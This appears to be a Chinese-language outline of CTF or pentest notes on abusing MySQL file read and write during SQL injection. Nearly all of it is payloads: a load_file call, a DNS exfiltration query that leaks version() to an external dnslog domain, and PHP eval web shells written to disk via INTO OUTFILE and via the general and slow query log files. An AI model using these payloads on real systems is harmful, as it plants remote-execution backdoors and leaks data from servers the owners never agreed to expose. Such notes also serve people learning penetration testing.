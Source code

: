 - # 读写文件
	- 权限
		- MySQL 中 在在mysql 5.6.34版本以后 secure_file_priv的值默认为NULL ,而 secure_file_priv为null 那么我们就不能导出文件，以下都建立在
		- secure_file_priv 的默认值被修改为''才能利用，且这个只能手工修改配置文件不能用sql语句，也就是想直接导出需要管理员不知道干了什么帮你修改好这个权限才行。
		- windows系统在 my.ini的[mysqld]下面加上secure_file_priv = ，linux 的在 /etc/my.cnf 同时读写权限问题就不用说了。
	- `load_file`
		- ```sql
		  load_file('/flag.txt')
		  ```
		- 在mysql中load_file 会带dns查询请求
		- ```sql
		  select load_file(concat(0x5c5c5c5c,version(),0x2E66326362386131382E646E736C6F672E6C696E6B2F2F616263));
		  ```
	- `outfile`
		- ```sql
		  select * from admin where id =1 union select 1,'<?php eval($_POST[cmd]);?>',3 into outfile 'G:\\test.txt';
		  ```
	- `dumpfile`
	- 通过日志写文件
		- ```sql
		  set global general_log=on;
		  set global general_log_file='D://404.php';
		  select '<?php eval($_POST['404']) ?>';
		  ```
		- 查看当前日志文件
			- ```sql
			  show global variables like '%query_log%'
			  ```
		- 慢日志
			- ```sql
			  set global slow_query_log=1;
			  set global slow_query_log_file='D://404.php'
			  select '<?php eval($_POST['404']) ?>' or sleep(15);
			  ```
